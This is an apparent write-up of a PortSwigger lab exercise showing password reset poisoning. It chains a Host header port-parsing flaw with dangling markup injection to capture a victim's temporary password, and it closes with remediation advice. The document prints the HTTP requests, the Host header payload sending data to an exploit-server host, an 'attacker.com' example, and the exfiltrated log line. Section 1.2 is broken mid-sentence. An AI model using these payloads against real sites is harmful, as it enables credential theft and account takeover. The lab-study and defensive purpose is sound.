## Challenge Overview
* **Challenge name**: Password reset poisoning via dangling markup
* **Category**: HTTP Host Header attacks / Dangling Markup Injection
* **Level**: Expert
* **Objective**: Exploit a port parsing flaw in the HTTP Host header combined with dangling markup injection to exfiltrate the temporary password for `carlos`, log in, and compromise the account.

---

## 1. Core Fundamentals

Password Reset Poisoning via Dangling Markup is an advanced attack vector that chains HTTP Host header manipulation with incomplete HTML markup injection to exfiltrate sensitive data to an attacker-controlled listener without executing JavaScript.

### 1.1. Port Parsing Mechanics in the HTTP Host Header

* **Host Header Syntax**: RFC 7230 and RFC 3986 specify that the Host header follows the format `host[:port]`. Typically, reverse proxies or Web Application Firewalls (WAFs) validate the `host` component against an allowed whitelist to route traffic and mitigate Host header injection attacks.
* **Flawed Port Parsing Implementations**: A widespread architectural flaw occurs when defensive systems only inspect the substring preceding the colon, while naively assuming whatever follows the colon is a valid numeric port without enforcing integer validation. When paired with a backend that blindly trusts and reflects the complete Host header string, an attacker can inject raw HTML syntax directly after the colon.

### 1.2. Dangling Markup Injection Technique

* **Underlying Mechanism**: Dangling markup is a scriptless data exfiltration technique particularly effective in environments enforcing strict Content Security Policies (CSP) or email clients that strip or disable dynamic JavaScript execution.
* **Data Exfiltration Flow**: The attacker injects an unclosed HTML opening tag with an incomplete attribute—omitting the closing quote or tag delimiter (for example, `<a href='//attacker.com/?` or `click here</a></p><p>... [NEW_PASSWORD]</p>
     ▼
[ Carlos Email Client ]
     │
     │  HTML Parser executes:
     │  Single quote closes original href. Tag <a href="//exploit-server/? swallows subsequent text!
     │  Dispatches GET request carrying Carlos's password to Attacker!
     ▼
[ Exploit Server Access Log ]
     │
     │  GET /?/login'>click%20here...Your%20new%20password%20is:%20[PASSWORD]
     ▼
[ Attacker extracts password and logs in as Carlos! ]
```

### 2.2. Attack Sequence Breakdown

1. **Step 1 - Dispatching the Poisoned Request**: The attacker issues a `POST /forgot-password` request with parameter `username=carlos`, appending a dangling HTML tag payload directly after the colon in the Host header: `<target-host>:'<a href="//<attacker-host>/?`.
2. **Step 2 - Bypassing Reverse Proxy Inspection**: The reverse proxy parses the string preceding the colon, confirms it matches the domain whitelist, and forwards the entire unvalidated Host header to the backend server.
3. **Step 3 - Assembling the Vulnerable Email**: The backend processes the request, generates a temporary random password for Carlos, and dynamically injects the untrusted Host header into the `href` attribute of the login link in the email template.
4. **Step 4 - Client-Side Parsing Disruption**: When Carlos's email client parses the HTML payload, the initial single quote (`'`) prematurely closes the intended `href` attribute, and the injected `<a href="//<attacker-host>/?` tag initiates a new anchor. Because this injected attribute uses double quotes (`"`), the parser ignores subsequent single quotes and HTML closing tags, swallowing everything—including the temporary password string—until reaching the next double quote.
5. **Step 5 - Credential Exfiltration**: When Carlos opens the email and clicks the resulting link, an outbound HTTP GET request carrying the swallowed text is transmitted to the attacker's server. The attacker extracts the cleartext credentials from the access logs.

### 2.3. Root Causes and Preconditions

* **Root Cause 1 (Proxy Validation Defect)**: The reverse proxy splits the Host header string on the colon and validates only the hostname portion, omitting numeric validation (1-65535) on the port component.
* **Root Cause 2 (Unescaped Reflection)**: The backend server interpolates user-controlled Host header input directly into the email HTML template without performing HTML entity encoding or URL validation.
* **Root Cause 3 (Insecure Password Reset Workflow)**: The reset workflow includes sensitive authentication credentials (temporary passwords) in the body of an email that also contains dynamically generated navigation links.

---

## 3. Vulnerability Exploitation

The vulnerability exploitation was conducted step-by-step using Burp Suite and the integrated Exploit Server.

### 3.1. Analyzing Password Reset Functionality

Submit a password reset request for the test account `wiener` using the Forgot password feature on the web interface. Capture the request in Burp Suite Repeater:

```http
POST /forgot-password HTTP/2
Host: 0a5400430459246181ac7fc100d80008.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=w2ic2MhYQEcO0jRZHrqRU31c13T0zQ00&username=wiener
```



Check the email inbox for `wiener` on the lab email client. The received email contains a cleartext temporary password alongside a login hyperlink:



Inspect the raw HTML source of the email using the **View raw** option to determine where the domain name is reflected:



The raw HTML reveals that the Host header is directly interpolated into the `href` attribute enclosed in single quotes. Immediately following the closing `</a>` tag is the paragraph containing the newly generated temporary password.

---

### 3.2. Testing Host Header Modification and Routing Behavior

Attempt to replace the entire Host header value with the Exploit Server domain:

```http
Host: exploit-0a35004f0411246181257e44012400a6.exploit-server.net
```

The server times out and returns an `HTTP 504 Gateway Timeout`, indicating that the reverse proxy relies on the Host header to route traffic and rejects arbitrary, unwhitelisted domains.



---

### 3.3. Verifying Port Parsing Flaw and Reflection Point

Test the port parsing mechanism by retaining the legitimate lab domain and appending an arbitrary port `:333`:

```http
Host: 0a5400430459246181ac7fc100d80008.web-security-academy.net:333
```

The request succeeds with an `HTTP/2 200 OK` status, demonstrating that the reverse proxy checks only the domain preceding the colon and allows the request through.



Review the email client inbox and inspect the raw HTML source of the newly received message:

```html
<p>Please <a href='https://0a5400430459246181ac7fc100d80008.web-security-academy.net:333/login'>click here</a>...
```

The `:333` string is reflected verbatim into the email `href` attribute. This confirms that the backend receives the full Host string, including the port segment, and reflects it into the email template without sanitization or HTML entity encoding.





---

### 3.4. Crafting the Dangling Markup Payload and Targeting Carlos

Based on the existing HTML template structure, construct the following payload to be appended after the colon in the Host header:

```text
:'<a href="//exploit-0a35004f0411246181257e44012400a6.exploit-server.net/?
```

When the backend concatenates this payload into the email template, the resulting HTML markup renders as:

```html
<p>Please <a href='https://0a5400430459246181ac7fc100d80008.web-security-academy.net:'<a href="//exploit-0a35004f0411246181257e44012400a6.exploit-server.net/?/login'>click here</a>....
```

* **Premature Attribute Termination via Single Quote (`'`)**: The single quote immediately following the colon (`:'`) closes the original `href='` attribute: `<a href='https://victim.net:'`.
* **Markup Swallowing via Double Quote (`"`)**: The new anchor tag is opened with double quotes: `<a href="//exploit-server/?...`. In the original template, the string `/login'>` follows the injection point. If single quotes were used, the single quote after `/login` would terminate the `href` attribute prematurely, leaving the password untouched. By opening the attribute with a double quote (`"`), the browser parser continues seeking a matching closing double quote, ignoring single quotes (`'`), closing brackets (`>`), and closing tags (`</a>`), thereby swallowing all subsequent characters—including the temporary password—until it hits the next double quote.
* **Exfiltration Vector**: The entire swallowed text becomes the value of the `href` query string and is transmitted to the Exploit Server when the victim interacts with the link.

> [!NOTE]
> **Why use `//exploit-server.net` instead of `https://exploit-server.net`?**
>
> 1. **Protocol-Relative URL (RFC 3986):** The leading `//` allows the URL to inherit whatever scheme (HTTP or HTTPS) the client is using to view the email. Browsers reliably parse and navigate to the target authority.
> 2. **Avoiding Port Parsing Syntax Conflicts:** Standard Host header syntax follows `Host: <hostname>:<port>`. Injecting `https://` after the colon introduces a second colon (`:`), causing many reverse proxies to reject the request with `400 Bad Request`. Using `//` avoids introducing an extra colon.
> 3. **Circumventing WAF Heuristics:** Certain defensive filters inspect the Host header for explicit protocol prefixes like `http://` or `https://`. Protocol-relative syntax bypasses these string-matching rules.

Submit the password reset request for `carlos` containing the prepared dangling markup payload:



---

### 3.5. Exfiltrating the Temporary Password from Exploit Server Logs

Navigate to the Exploit Server interface and open the **Access log**. When Carlos opens the email and clicks the poisoned link, the client issues an HTTP GET request to the Exploit Server containing the swallowed markup:

```http
GET /?/login'>click%20here</a></p><p>Your%20new%20password%20is:%20iFUnGERZYB HTTP/1.1" 200 "User-Agent: Mozilla/5.0..."
```

Extract the temporary password for Carlos: `iFUnGERZYB`.

> [!NOTE]
> **Why does the Access log request follow the format `GET /?/login'>...` (with a `?`)?**
>
> 1. **Query String Delimitation (RFC 3986):** The `?` at the end of `//exploit-server.net/?` explicitly defines the boundary between the root URI path (`/`) and the query string. All swallowed HTML and credential data are parsed as query parameters.
> 2. **Preventing Path-Based Rejection:** Without the `?`, special characters (`<`, `>`, `'`, spaces) would be treated as part of the URI path. Web servers strictly restrict characters within path segments and would return `400 Bad Request` or `404 Not Found`. Query strings freely permit URL-encoded characters.
> 3. **Preserving Log Integrity:** Web servers log query strings completely in access logs. The attacker can read the exfiltrated credentials directly from the logs without data truncation.



---

### 3.6. Account Takeover via Carlos's Credentials

Navigate to `/login`, enter username `carlos`, and supply the exfiltrated temporary password `iFUnGERZYB`.



Upon successful authentication, the lab marks the challenge as solved.



---

## 4. Remediation Strategies

To eliminate password reset poisoning via dangling markup, organizations must apply defense-in-depth measures across both network architecture and application codebases:

### 4.1. Reverse Proxy Host Header Validation and Normalization

* **Strict Port Validation**: Configure reverse proxies and load balancers to enforce strict validation against the complete Host header. If a colon is present, the port component must be strictly validated as a numeric integer between 1 and 65535, dropping any requests containing special characters or HTML syntax.
* **Whitelist-Based Normalization**: Match Host headers against a strict whitelist of allowed domains and rewrite or normalize the header value before forwarding it to backend application servers.

### 4.2. Application-Tier Defenses

* **Static URL Configuration**: Never generate absolute URLs in emails or sensitive communications using client-controlled headers like `Host`. Always reference static environment configuration variables (such as `APP_URL` or `SERVER_NAME`).
* **HTML Entity Encoding**: Contextually encode all dynamic data reflected into HTML templates, converting sensitive characters (`<`, `>`, `'`, `"`) into safe HTML entities (`&lt;`, `&gt;`, `&#39;`, `&quot;`).

### 4.3. Secure Password Reset Design

* **Cryptographic Tokens Instead of Cleartext Passwords**: Never transmit cleartext passwords via email. Instead, issue short-lived (10-15 minutes), cryptographically secure, single-use reset tokens embedded in a reset URL.
* **Content Security Policy (CSP)**: Implement strict Content Security Policies in webmail portals and web applications to prevent unauthorized external network requests and resource loading from unapproved third-party domains.
